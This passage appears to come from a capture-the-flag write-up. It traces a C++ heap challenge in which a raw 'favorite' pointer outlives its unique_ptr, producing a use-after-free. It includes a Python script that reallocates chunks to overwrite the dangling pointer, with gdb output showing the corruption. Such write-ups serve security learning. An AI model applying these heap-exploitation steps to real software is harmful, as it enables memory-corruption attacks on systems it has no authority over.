 ```c++
fwrite("choice: ", 1, 8, 0x7fcd0e4ea600)         = 8
0
fwrite("idx: ", 1, 5, 0x7fcd0e4ea600)            = 5
0
fwrite("name: ", 1, 6, 0x7fcd0e4ea600)           = 6
heyagain
malloc(40)                                       = 0x7fffd207beb0
free(0x7fffd207be40)                             = <void>
fwrite("choice: ", 1, 8, 0x7fcd0e4ea600)         = 8
```

 A `free()` _does_ happen this time, because when a _new_ `unique_ptr` is assigned to `foods[0]`, the pointer that already existed at `foods[0]` understands that there are no references left to it (that it has gone out of scope), causing it to delete itself.

At this point, I get a flash of insight as I discover what the main bug is: `favorite`.

```c++
case 1: {
  size_t idx = get_idx();
  favorite = foods[idx].get();
  break;
}
```

`favorite` is a normal "dumb" pointer. A `unique_ptr` from `foods[]` can't keep track of `favorites`, and when the `unique_ptr` associated with `favorites` is freed, a dangling pointer is left in `favorites`, causing a **use after free**.

### Testing the UAF

I start with a little bit of experimentation:

```python
alloc(0, b'a'*0x47)
alloc(1, b'b'*0x47)
alloc(2, b'c'*0x47)
fav(2)
alloc(2, b'A'*0x17)
alloc(1, b'B'*0x17)
alloc(0, b'C'*0x17)
printName()
```

My hope here is that, in using allocations of different sizes, the merging and reallocation<sup>3</sup> of a freed `foods[2]` will lead to one of the input strings overwriting `*favorites`.

The code above produces a crash _sometimes_<sup>4</sup>; here's one possible variant of a crash, where the contents of `favorite` are overwritten with the string data of the 2nd re-allocation: 

```
(gdb) telescope favorite
0x00007ffff76da1c0│+0x0000: "BBBBBBBBBBBBBBBBBBBBBBB"
0x00007ffff76da1c8│+0x0008: "BBBBBBBBBBBBBBB"
0x00007ffff76da1d0│+0x0010: 0x0042424242424242 ("BBBBBBB"?)
0x00007ffff76da1d8│+0x0018: 0x000000000000003c ("<"?)
0x00007ffff76da1e0│+0x0020: 0x0000000000000000
0x00007ffff76da1e8│+0x0028: 0x0000000000000051 ("Q"?)
0x00007ffff76da1f0│+0x0030: 0x0000000000000000
0x00007ffff76da1f8│+0x0038: "ccccccccccccccccccccccccccccccccccccccccccccccc"
0x00007ffff76da200│+0x0040: "ccccccccccccccccccccccccccccccccccccccc"
0x00007ffff76da208│+0x0048: "ccccccccccccccccccccccccccccccc"
```
